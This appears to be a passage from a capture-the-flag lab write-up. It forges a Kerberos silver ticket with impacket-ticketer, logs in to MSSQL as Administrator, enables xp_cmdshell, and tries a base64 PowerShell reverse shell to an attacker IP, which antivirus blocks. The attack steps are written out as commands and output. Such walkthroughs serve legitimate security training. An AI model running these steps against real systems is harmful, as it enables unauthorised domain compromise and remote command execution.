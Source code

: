 We can use `impacket-ticketer` with all the information above to request a ticket for the specified SPN. With all the info taken into account, you should receive a command similar to the below.

```
└─$ impacket-ticketer -nthash 69596C7[...snip...]870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -dc-ip 10.10.105.115 -spn mssql/breachdc.breach.vl -domain breach.vl Administrator
......
[*] Saving ticket in Administrator.ccache
```

As you can see, the ticket was saved as `Administrator.ccache`. We'll now set this as our Kerberos authentication global variable and attempt to authenticate to MSSQL as the Administrator user.

```
└─$ export KRB5CCNAME=Administrator.ccache

└─$ impacket-mssqlclient -k breachdc.breach.vl -target-ip 10.10.105.115
SQL (BREACH\Administrator  dbo@master)>
```

It looks like we were successfully logged within the context of Administrator, let's see if we can enable command execution.

```
SQL (BREACH\Administrator  dbo@master)> enable_xp_cmdshell
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell whoami
output             
----------------   
breach\svc_mssql   

NULL
```

It seems as though we can! Now that we are able to do this, let's see if we can execute any arbitrary commands to gain a reverse shell. I opted to use a base64'd powershell reverse shell that you can make via [revshells.com](https://www.revshells.com/).

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell powershell -e (POWERSHELL BASE64 REV SHELL ENCODED)
output                                                                             
--------------------------------------------------------------------------------   
#< CLIXML                                                                          

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">At line:1 char:1_x000D__x000A_</S><S S="Error">+ $client = New-Object System.Net.Sockets.TCPClient("10.8.0.173",9001); ..._x000D__x000A_</S><S S="Error">+ ~~~~~~~   

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">This script contains malicious content and has been blocked by your antivirus software._x000D__x000A_</S><S S="Error">    + CategoryInfo          : ParserError: (   

:) [], ParentContainsErrorRecordException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : ScriptContainedMaliciousContent_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
```
